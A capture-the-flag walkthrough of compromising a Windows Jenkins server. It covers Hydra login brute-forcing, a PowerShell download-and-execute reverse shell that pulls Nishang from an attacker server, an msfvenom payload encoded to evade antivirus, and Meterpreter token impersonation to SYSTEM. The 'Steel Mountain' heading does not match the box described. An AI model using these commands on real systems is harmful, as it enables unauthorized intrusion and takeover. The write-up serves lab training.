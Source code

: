 # Steel Mountain

## Summary

Jenkins is used to create continuous Integration/continuous development (CI/CD) pipelines that allow developers to deploy code once changes are made. I used the [Invoke-PowerShellTcp.ps1 ](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) script from Nishang to grab initial access and utilized token impersonation to gain privileged access.

## Enumeration

I ran Nmap on the machine and used the `-Pn` flag as the host was down initially. 

```
nmap $machine_IP -Pn -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-31 22:22 EST
Nmap scan report for $machine_IP
Host is up (0.27s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

Navigating to the webpage on Port 80 resulted in an empty landing page

![port80](Images/port80.png)

Navigating to the webpage on Port 8080 rendered a Jenkins login page

![port8080](Images/port8080.png)

Bruteforcing with Hydra requires valid parameters for URL, Form Parameters and login error message. To achieve this I ran an authentication request through Burp Suite. Having become much more familiar with Burp Suite since completing this room, I would default to using Burp Intruder for bruteforcing and fuzzing login fields. However, in this case, I was able to successfully do this via Hydra.

![Jenkins](Images/jenkins-login.png)

![burp](Images/jenkins-burp-login.png)

```
hydra -s 8080 $machine_IP http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L user.txt -P password.txt -t 20 -w 30
```

![hydra](Images/hydrapasscrack.png)

After logging into Jenkins, I am presented with the dashboard. 

![Jenkins dashboard](Images/jenkinsdashboard.png)

Navigating to the `Configure` section of the project and moving to the `build` directory shows a method of executing a reverse shell. I ran the `whoami` command as a POC and receive a successful result. 

![Jenkins whoami](Images/jenkinswhoami.png)

## User Foothold

I use the `Invoke-PowerShellTcp.ps1` script from the Nishang Framework to get a reverse shell on the victim's machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://$machine_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $THM_IP -Port 4444
```

![revsershell](Images/jenkinsrevshell.png)

![build](Images/jenkinsshellexec.png)

Meanwhile, we can see that the `Invoke-PowerShellTcp.ps1` file was picked up from the Python Simple HTTP Server

![python server](Images/httpserver.png)

Meanwhile, we also see a reverse connection and get a reverse shell. We are also able to grab the `user.txt` flag. 

![reverse shell](Images/ncshell.png)

![user.txt](Images/user.txt.png)

## Switching Shells - Optional

The reverse shell we have received is a standard Windows CMD shell. Having a meterpreter shell provides us with increased functionality, such as, hash dumping, easy file uploads and downloads and token impersonation, which is relevant to this box, among others. While it is perfectly possible to continue and complete the rest of the box with a standard shell, I will be switching over to a Meterpreter shell for the above-mentioned reasons. 

I start off by generating an encoded x86-64 TCP Meterpreter payload through Msfvenom. Payloads are encoded to ensure they're transmitted correctly and evade anti-virus (AV) solutions.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
```

I am able to move this generated payload to the victim machine on the existing reverse shell.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$machine_IP:8000/shell.exe','shell.exe')"
```

In preparation, I ensure that the listening handler is setup in Metasploit.

```
msf6 exploit(multi/handler) > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost $THM_IP
lhost => $THM_IP
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on $THM_IP:9999 
[*] Sending stage (175174 bytes) to $machine_IP
[*] Meterpreter session 1 opened ($THM_IP:9999 -> $machine_IP:49238 ) at 2022-02-01 00:58:17 -0500

meterpreter > getuid
Server username: alfred\bruce
meterpreter >
```

Meanwhile, I started the shell - `Start-Process "shell.exe"`

## Privilege Escalation
Now that we have initial access, we can use **token impersonation** to gain system access. Windows uses tokens to ensure that accounts have the appropriate privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by `LSASS.exe`

This access token consists of 

1. User SID's (Security Identifier)
2. Group SID's
3. Privileges

There are 2 types of access tokens

1. Primary Access Tokens - those associated with a user account that are generated on log on
2. Impersonation tokens - they allow a particular process (or thread in a process) to gain access to resources using the token of another (user/client) process

Impersonation tokens have different levels

1. SecurityAnonymous - current user/client cannot impersonate another user/client
2. SecurityIdentification - current user/client can get the identity and privileges of a client, but cannot impersonate the client
3. SecurityImpersonation - current user/client can impersonate the client's security context on the local system
4. SecurityDelegation - current user/client can impersonate the client's security context on the remote system

Security Context is a data structure that contains user's security information

The privileges of an account (either given to the account when created or inherited from a group) allow a user to carry out particular actions

### List of commonly abused privileges

* SeImpersonatePrivilege
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege

I am able to view all privileges using `whoami /priv`

![whoamipriv](Images/whoamiprivs.png)

This indicates that the `SeDebugPrivilege` and `SeImpersonatePrivilege` privileges are enabled. With `load incongnito` and `list_tokens -g` I am able to view which tokens are available and use the `impersonate_token “BUILTIN\Administrators”` command to impersonate the Administrators token.

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

**Warning** - something to note, despite having a higher privileges token, at times you still might not have the permissions of the privileged user. This is due to how Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can and cannot do. However, I can now escalate processes. I run the `ps` command to see what processes are running as `NT AUTHORITY\SYSTEM` and `spoolsv.exe` was one of the results. I am able to migrate to `spoolsv.exe` with the following command - `migrate <PID>`

Then I navigate to `C:\Windows\system32\config` where I was able to grab the root flag.

```
meterpreter > cat root.txt 
dff#######################
```
